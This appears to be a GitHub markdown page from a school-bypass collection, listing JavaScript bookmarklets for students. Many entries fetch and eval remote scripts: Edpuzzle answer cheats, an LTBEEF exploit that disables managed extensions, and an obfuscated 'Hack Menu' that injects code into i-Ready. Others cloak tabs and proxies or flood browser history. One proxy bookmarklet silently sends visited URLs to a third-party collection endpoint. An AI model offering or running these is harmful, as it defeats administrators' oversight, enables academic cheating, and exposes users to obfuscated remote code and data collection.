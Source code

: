 ## ByePassHub > Exploits > Bookmarklets | updated dec 15
## If you like this, make sure to star it!
**If you need help on creating a bookmarklet**, Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/CreatingBookmarklets.md) or to the CreatingBookmarklets file<br>
**Exploits/Bypasses:** Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Exploits%5CBypasses.md) <br>  <br>
**Unblocker and game links**: Go [here](https://github.com/wea-f/ByePassHub/blob/main/mainUnblockers.md) or go to the mainUnblockers.md file. <br>
**Main game links:** [Here](https://github.com/wea-f/ByePassHub/blob/main/Games.md)  <br>
**Back to Starting Hub:** [Here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/README.md) 
### IF BOOKMARKLETS DON'T WORK, FOLLOW THESE [INSTRUCTIONS](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Downgrading.md)
---

### This is a collection of bookmarklets<br>
### These can range from disabling extensions, auto clicking, inspect element, flooding your history, and more!
These are from [balls-remover](https://github.com/3kh0/balls-remover) and [Satz n' stuff](https://sites.google.com/site/satznstuff/home/bookmarklets), [this repo](https://github.com/legend7278/Bookmarklets), [ENS](https://sites.google.com/view/exploitsnstuff/bypass-tools/bookmarklets), and [this repo](https://github.com/TheRealMrGamz/Bookmarklets) <br>
Make sure to scroll all the way down for all the bookmarklets! <br>
## What it does | note if needed
## Edpuzzle Cheats credit: [ading2210](https://github.com/ading2210/edpuzzle-answers)
```js
javascript: fetch("https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js").then(r => r.text()).then(r => eval(r))
```
## History Flooder made by BlazerHM
```js
javascript:var num%3Dprompt%28"How many times do you want this page to show up in your history?");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flooding successful!\n"+window.location.href+" should now appear in your history "+num+(num==1?" time.":" times! \n"))}
```
After executing, put the amount of times you want the page to show up, too many crashes chrome.
## LoMoH - disables extensions
```js
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
## LTBEEF - disables extensions
Before executing, go to ```https://chrome.google.com/webstorex```, if it says 404, it's fine. <br>
If this doesn't work, substitute the `x` for something else, like ```https://chrome.google.com/webstoreIReplacedItRightHere``` <br>
Once on the site, execute one of the two codes below. <br>
Next, switch off the extensions you want to disable <br>
```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
OR
```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
## Tab Disguise
```js
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);
```
## Ad Blocker
```js
javascript:(function(){    /* Ad-B-Gone: Bookmarklet that removes obnoxious ads from pages */    var selectors = [    /* By ID: */    '#sidebar-wrap', '#advert', '#xrail', '#middle-article-advert-container',    '#sponsored-recommendations', '#around-the-web', '#sponsored-recommendations',    '#taboola-content', '#taboola-below-taboola-native-thumbnails', '#inarticle_wrapper_div',    '#rc-row-container', '#ads', '#at-share-dock', '#at4-share', '#at4-follow', '#right-ads-rail',    'div#ad-interstitial', 'div#advert-article', 'div#ac-lre-player-ph',    /* By Class: */    '.ad', '.avert', '.avert__wrapper', '.middle-banner-ad', '.advertisement',    '.GoogleActiveViewClass', '.advert', '.cns-ads-stage', '.teads-inread', '.ad-banner',    '.ad-anchored', '.js_shelf_ads', '.ad-slot', '.antenna', '.xrail-content',    '.advertisement__leaderboard', '.ad-leaderboard', '.trc_rbox_outer', '.ks-recommended',    '.article-da', 'div.sponsored-stories-component', 'div.addthis-smartlayers',    'div.article-adsponsor', 'div.signin-prompt', 'div.article-bumper', 'div.video-placeholder',    'div.top-ad-container', 'div.header-ad', 'div.ad-unit', 'div.demo-block', 'div.OUTBRAIN',    'div.ob-widget', 'div.nwsrm-wrapper', 'div.announcementBar', 'div.partner-resources-block',    'div.arrow-down', 'div.m-ad', 'div.story-interrupt', 'div.taboola-recommended',    'div.ad-cluster-container', 'div.ctx-sidebar', 'div.incognito-modal', '.OUTBRAIN', '.subscribe-button',    '.ads9', '.leaderboards', '.GoogleActiveViewElement', '.mpu-container', '.ad-300x600', '.tf-ad-block',    '.sidebar-ads-holder-top', '.ads-one', '.FullPageModal__scroller',    '.content-ads-holder', '.widget-area', '.social-buttons', '.ac-player-ph',    /* Other: */    'script', 'iframe', 'video', 'aside#sponsored-recommendations', 'aside[role="banner"]', 'aside',    'amp-ad', 'span[id^=ad_is_]', 'div[class*="indianapolis-optin"]', 'div[id^=google_ads_iframe]',    'div[data-google-query-id]', 'section[data-response]', 'ins.adsbygoogle', 'div[data-google-query-id]',    'div[data-test-id="fullPageSignupModal"]', 'div[data-test-id="giftWrap"]' ];    for(let i in selectors) {        let nodesList = document.querySelectorAll(selectors[i]);        for(let i = 0; i < nodesList.length; i++) {            let el = nodesList[i];            if(el && el.parentNode)                el.parentNode.removeChild(el);        }    }})();
```
## Show Password | In case if you forget your password on the login screen lol
```js
javascript:Array.prototype.slice.call(document.querySelectorAll("input[type='password']")).map(function(el){el.setAttribute('type','text')})
```
## Inspect Element
```js
javascript: javascript:document.body.contentEditable = 'true'; document.designMode='on'; void 0
```
Another inspect element:
```js
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
```
## web browser
```js
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
```
## Proxies (Unblockers)
```js
javascript:(function(){var bkmkltscript = document.createElement('script'); bkmkltscript.src = 'https://cdn.jsdelivr.net/gh/proxyhost/bookmarklets/aiobkmklt.js'; document.body.appendChild(bkmkltscript);})();
```
2nd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://nebula.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
3rd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://ultraviolet-node.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
4th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://incognito.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
5th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://website-aio.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
6th (opens in about:blank):
```js
javascript:(function(){var url = prompt("Enter website url for cloaked page \n Made by Exploits N' Stuff"); var win = window.open(); var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; if(url.includes('https://') || url.includes("http://")) {iframe.src = url;}else{iframe.src = "https://" + url;} win.document.body.appendChild(iframe);})();
```
7th:
```js
javascript:(()=>{let e='[1,2]';function t(e){return e.toString(16).padStart(2,'0')}function o(e){let o=new Uint8Array((e||40)/2);return window.crypto.getRandomValues(o),Array.from(o,t).join('')}let n=o(20);function r(e,t){return prompt('[Legend7269s proxy]\n'+e,t)}function a(e){return confirm('[Legend7269s proxy]\n'+e)}function l(e){return alert('[92dev proxy]\n'+e)}function c(){let e=r('Enter the URL to access:');return null===e||''===e.trim()?null:e=new URL((e=e.replace(%27-%27,%27%27)).indexOf(%27http%27)?%27http://%27+e:e)}function i(e,t){fetch(%27https://dev.92spoons.com/api/fakehacks/proxy/collect.php%27,{method:%27POST%27,headers:{%27Content-Type%27:%27application/json%27},body:JSON.stringify({url:e,version:%271.0.0%27,from:window.location.href,sessionRandomId:n,proxy:t}),mode:%27cors%27})}!function t(){let o=c();if(null===o)return;let n=new URL(o);!function t(){let l=r(%27Proxy method to use:\nCurrently available proxies are numbered %27+e+%27.%27,1);null!==l&&(1==l?(i(o,1),window.location.href=%27https://webcache.googleusercontent.com/search?q=cache%3A%27+encodeURIComponent(n)):2==l?(i(o,2),window.location.href=%27https://%27+n.hostname.replace(/\./g,%27-%27)+%27.translate.goog%27+n.pathname+%27?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp%27):(i(o,%27oob%27),a(%27That proxy id is invalid. Please choose a proxy in the range %27+e+%27.\nIf none of the proxies are working for you, you can ask for more at https://github.com/Legend7269/Bookmarklets%27)&&t()))}()}()})();
```
## Calculator | doesn't show in your history
```js
javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()
```
## Dictionary | Highlight words and it shows you the definition, again, doesn't show in your history
```js
javascript:var q=escape(window.getSelection()),i,ii;if(!q){for(i=0;i<frames.length;i++){var fr=frames[i];try{q=escape(fr.getSelection())}catch(e){};if(q)break;else{for(ii=0;ii<fr.frames.length;ii++){try{q=escape(fr.frames[ii].getSelection())}catch(e){};if(q)break;}}}}if(!q)void(q=prompt('Enter word to define%3A',''));if(q)void(location.href='http://www.dictionary.com/cgi-bin/dict.pl?term=%27+q);```
```
## Font Finder 
```js
javascript:(function(){var d=document,s=d.createElement('scr'+'ipt'),b=d.body,l=d.location;s.setAttribute('src','http://chengyinliu.com/wf.js?o='+encodeURIComponent(l.href)+'&t='+(new Date().getTime()));b.appendChild(s)})();
```
## Unblocked Youtube
```js
javascript:(function () {if (window.location.toString().includes('www.youtube.com/watch?v%27)) { window.open(%27https://www.youtube-nocookie.com/embed/%27 + window.location.toString().split(%27=%27)[1]) }})()
```
## Hack Menu
```js
javascript:function _0x54f5(_0x4c9444,_0x4ac2af){const _0x17ddb2=_0x380f();return _0x54f5=function(_0x19dcc8,_0x9a0e40){_0x19dcc8=_0x19dcc8-0x8e;let _0x227425=_0x17ddb2[_0x19dcc8];return _0x227425;},_0x54f5(_0x4c9444,_0x4ac2af);}function _0x380f(){const _0x378644=['4171185PbwjuA','return\x20(function()\x20','search','5022212nNDxnN','{}.constructor(\x22return\x20this\x22)(\x20)','iframe','prototype','log','error','(((.+)+)+)+$','console','https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js','#U3Yq73','appendChild','18370weTWYU','201365CDUwAl','apply','10kSarUU','bind','710569iOGDqM','__proto__','contentWindow','2BdVBzH','display','21QJQsgN','none','3587043RPUKBC','style','3001304NoJSZJ','trace','catch','toString','warn','table','U3Yq73','66qdZbUl','get','https://login.i-ready.com/','querySelector','2508jetZRn','fetch','constructor','then','exception','info'];_0x380f=function(){return%20_0x378644;};return%20_0x380f();}const%20_0xadefc0=_0x54f5;(function(_0x507ca9,_0x365979){const%20_0x2a1e1a=_0x54f5,_0x105b91=_0x507ca9();while(!![]){try{const%20_0x43c327=parseInt(_0x2a1e1a(0xaa))/0x1+-parseInt(_0x2a1e1a(0xad))/0x2*(parseInt(_0x2a1e1a(0xb1))/0x3)+parseInt(_0x2a1e1a(0x9a))/0x4+-parseInt(_0x2a1e1a(0xa6))/0x5*(parseInt(_0x2a1e1a(0xba))/0x6)+-parseInt(_0x2a1e1a(0xaf))/0x7*(-parseInt(_0x2a1e1a(0xb3))/0x8)+parseInt(_0x2a1e1a(0x97))/0x9*(-parseInt(_0x2a1e1a(0xa8))/0xa)+parseInt(_0x2a1e1a(0xa5))/0xb*(-parseInt(_0x2a1e1a(0x91))/0xc);if(_0x43c327===_0x365979)break;else%20_0x105b91['push'](_0x105b91['shift']());}catch(_0x5c4471){_0x105b91['push'](_0x105b91['shift']());}}}(_0x380f,0x9c5b0));const%20_0x3d141d=(function(){let%20_0x3b4fcd=!![];return%20function(_0x2843ca,_0x598a6a){const%20_0x228da5=_0x3b4fcd?function(){if(_0x598a6a){const%20_0x1eae74=_0x598a6a['apply'](_0x2843ca,arguments);return%20_0x598a6a=null,_0x1eae74;}}:function(){};return%20_0x3b4fcd=![],_0x228da5;};}()),_0x108e71=_0x3d141d(this,function(){const%20_0x3001d5=_0x54f5;return%20_0x108e71[_0x3001d5(0xb6)]()['search']('(((.+)+)+)+$')[_0x3001d5(0xb6)]()[_0x3001d5(0x93)](_0x108e71)[_0x3001d5(0x99)](_0x3001d5(0xa0));});_0x108e71();const%20_0x9a0e40=(function(){let%20_0x19a019=!![];return%20function(_0x122e62,_0x48c927){const%20_0x16892c=_0x19a019?function(){const%20_0x3707ca=_0x54f5;if(_0x48c927){const%20_0x6eb7c3=_0x48c927[_0x3707ca(0xa7)](_0x122e62,arguments);return%20_0x48c927=null,_0x6eb7c3;}}:function(){};return%20_0x19a019=![],_0x16892c;};}()),_0x19dcc8=_0x9a0e40(this,function(){const%20_0x4c4646=_0x54f5;let%20_0x5844cb;try{const%20_0x565505=Function(_0x4c4646(0x98)+_0x4c4646(0x9b)+');');_0x5844cb=_0x565505();}catch(_0x404f45){_0x5844cb=window;}const%20_0x39ccf2=_0x5844cb[_0x4c4646(0xa1)]=_0x5844cb[_0x4c4646(0xa1)]||{},_0x16d310=[_0x4c4646(0x9e),_0x4c4646(0xb7),_0x4c4646(0x96),_0x4c4646(0x9f),_0x4c4646(0x95),_0x4c4646(0xb8),_0x4c4646(0xb4)];for(let%20_0xdc9bb5=0x0;_0xdc9bb5%3C_0x16d310['length'];_0xdc9bb5++){const%20_0x12b77a=_0x9a0e40[_0x4c4646(0x93)][_0x4c4646(0x9d)][_0x4c4646(0xa9)](_0x9a0e40),_0x5b8d1a=_0x16d310[_0xdc9bb5],_0x56dd77=_0x39ccf2[_0x5b8d1a]||_0x12b77a;_0x12b77a[_0x4c4646(0xab)]=_0x9a0e40[_0x4c4646(0xa9)](_0x9a0e40),_0x12b77a[_0x4c4646(0xb6)]=_0x56dd77[_0x4c4646(0xb6)]['bind'](_0x56dd77),_0x39ccf2[_0x5b8d1a]=_0x12b77a;}});_0x19dcc8();try{if(document[_0xadefc0(0x90)](_0xadefc0(0xa3))===null){let%20iframe=document['createElement'](_0xadefc0(0x9c));iframe['src']=_0xadefc0(0x8f),iframe['id']=_0xadefc0(0xb9),iframe[_0xadefc0(0xb2)][_0xadefc0(0xae)]=_0xadefc0(0xb0),document['body'][_0xadefc0(0xa4)](iframe),iframe['onload']=()=%3E{const%20_0x5777e2=_0xadefc0;window[_0x5777e2(0x8e)]=async(_0x2a1cca,_0x441e01)=%3E{return%20new%20Promise((_0x221243,_0x497907)=%3E{const%20_0x3511cd=_0x54f5;U3Yq73[_0x3511cd(0xac)][_0x3511cd(0x92)](_0x2a1cca,_0x441e01)[_0x3511cd(0x94)](_0x542415=%3E{_0x221243(_0x542415);})[_0x3511cd(0xb5)](_0x28799b=%3E{_0x497907(_0x28799b);});});},get('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js')[_0x5777e2(0x94)](_0x230289=%3E_0x230289['text']())['then'](_0xd96b0c=%3Eeval(_0xd96b0c))['catch'](_0x30a455=%3Ealert(_0x30a455));};}else%20get(_0xadefc0(0xa2))[_0xadefc0(0x94)](_0x344e55=%3E_0x344e55['text']())[_0xadefc0(0x94)](_0x21ad45=%3Eeval(_0x21ad45))[_0xadefc0(0xb5)](_0x7c3551=%3Ealert(_0x7c3551));}catch(_0x859f92){alert('Error\x20while\x20loading\x20nullify.\x20This\x20could\x20be\x20because\x20you\x20are\x20not\x20on\x20iReady\x20or\x20because\x20of\x20a\x20patch');}
```
## Close Active Bookmarklets
```js
javascript:var element = document.getElementById("rusic-modal"); element.parentNode.removeChild(element);
```
